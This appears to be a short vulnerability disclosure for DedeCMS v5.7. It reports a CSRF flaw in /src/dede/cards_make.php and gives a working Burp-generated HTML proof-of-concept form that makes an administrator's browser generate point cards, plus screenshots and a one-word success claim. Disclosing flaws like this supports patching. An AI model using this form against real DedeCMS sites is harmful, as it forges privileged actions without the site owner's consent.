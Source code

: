 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/cards_make.php
![1](https://github.com/wangxinbixu888/cms/assets/164822067/58364db1-f0af-49f2-84e3-6ce2c9b2f21d)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/cards_make.php">
      <input type="hidden" name="dopost" value="make" />
      <input type="hidden" name="cardtype" value="1" />
      <input type="hidden" name="mnum" value="100" />
      <input type="hidden" name="snprefix" value="SN" />
      <input type="hidden" name="pwdlen" value="4" />
      <input type="hidden" name="ctype" value="2" />
      <input type="hidden" name="pwdgr" value="3" />
      <input type="hidden" name="Submit" value="�&#188;&#128;�&#167;&#139;�&#148;&#159;�&#136;&#144;�&#130;&#185;�&#141;&#161;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
![2](https://github.com/wangxinbixu888/cms/assets/164822067/cc1e0c7c-e255-4abb-9e17-ece0af932aa1)



successed

![3](https://github.com/wangxinbixu888/cms/assets/164822067/8225ff31-6443-418e-afda-e5f3cf78ae0a)
